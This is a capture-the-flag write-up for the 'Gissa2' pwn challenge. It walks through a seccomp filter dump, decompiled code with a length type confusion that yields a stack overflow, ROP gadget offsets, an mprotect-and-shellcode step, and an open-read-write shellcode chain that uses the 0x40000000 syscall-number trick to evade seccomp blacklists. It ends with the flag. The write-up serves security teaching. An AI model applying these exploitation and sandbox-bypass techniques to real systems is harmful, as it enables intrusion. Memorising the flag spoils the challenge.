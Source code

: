 # Gissa2

**Category**: Pwn

725 Points

15 Solves

---

The binary reads in the flag file from `/home/ctf/flag` and maps into an mmap region. Additionally it sets up seccomp rules which we can dump using seccomp-tools.

```
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x15 0x00 0x01 0x00000038  if (A != clone) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0010
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 0010: 0x15 0x00 0x01 0x0000003a  if (A != vfork) goto 0012
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0014
 0013: 0x06 0x00 0x00 0x00000000  return KILL
 0014: 0x15 0x00 0x01 0x00000055  if (A != creat) goto 0016
 0015: 0x06 0x00 0x00 0x00000000  return KILL
 0016: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0018
 0017: 0x06 0x00 0x00 0x00000000  return KILL
 0018: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0020
 0019: 0x06 0x00 0x00 0x00000000  return KILL
 0020: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 ```

The binary then provides us three tries to guess the flag, which of course is impossible unless you are a guess god.

There is of course a vulnerability. It exists in the main function:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+0h] [rbp-A8h]
  __int16 read_len; // [rsp+8Ch] [rbp-1Ch]
  unsigned __int16 tries; // [rsp+8Eh] [rbp-1Ah]
  __int64 v7; // [rsp+90h] [rbp-18h]
  __int64 i; // [rsp+98h] [rbp-10h]

  i = 0LL;
  v7 = 0LL;
  tries = 0;
  read_len = 0x8B;
  read_flag_in();
  write_syscall();
  memeset((__int64)&buf, 0x8Bu);
  for ( i = 1LL; i <= tries + 3; ++i )
  {
    write_syscall();
    print_num(i - tries);
    write_syscall();
    v7 = (signed int)check((__int64)&buf, (unsigned int *)&read_len, &tries);
    if ( v7 > 0 )
      break;
  }
  cleanup();
  return 0;
}
```

Notice how the variable read_len is a 16 bit integer, however when it is being passed into the check function, it is casted to an unsigned int pointer, where an unsigned int is 32 bits. We can verify in the read input function that the read_len is being interpreted as a 32 bit integer:

```C
__int64 __fastcall read_bytes(__int64 buf, signed int len)
{
  signed int i; // [rsp+1Ch] [rbp-Ch]

  for ( i = 0; i < len && (unsigned int)read_syscall() == 1 && *(_BYTE *)(i + buf) != 10; ++i )
    ;
  if ( *(_BYTE *)(i + buf) == 10 )
    *(_BYTE *)(i + buf) = 0;
  return (unsigned int)i;
}
```

If we look back at the stack in main, we see that the 16 bits after the length is # of tries, which is incremented when we enter a newline. Then, the read_len will be a big number, specifically 0x1008b, using which we can buffer overflow the stack.

To leak pie, we can take advantage of the call to `str_len((_BYTE *)user_inp)` when our input does not match the flag. Additionally, using the gadgets in the binary, we can do pretty much any syscall we want:

```
poprdirsi = piebase + 0x0000000000000c22 # pop rdi ; pop rsi ; ret
poprdx = piebase + 0x0000000000000c1d # pop rdx ; pop r9 ; pop r8 ; pop rdi ; pop rsi ; ret
syscall = piebase + 0x0000000000000bd9 # syscall ; ret
xorrax = piebase + 0x0000000000000bd4 # xor rax, rax ; mov al, 0 ; syscall ; ret
```

Because mprotect is not a blacklisted syscall, we can mprotect the whole binary, read in shellcode, and jmp to it to gain better primitives.

Next, to bypass the seccomp syscall blacklists, I found [this](https://gist.github.com/thejh/c5b670a816bbb9791a6d) link that shows that using `opcode | 0x40000000` as the syscall number works as the desired syscall yet still bypasses seccomp. So, using this, we can write a orw chain to read the flag.

```
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x40000002
syscall

mov rdi, rax
mov rsi, {bss_addr}
mov rdx, 0x40
xor rax, rax
syscall

mov rax, 1
mov rdi, 1
syscall
```

## Flag:
midnight{I_kN3w_1_5H0ulD_h4v3_jUst_uS3d_l1B5eCC0mP}
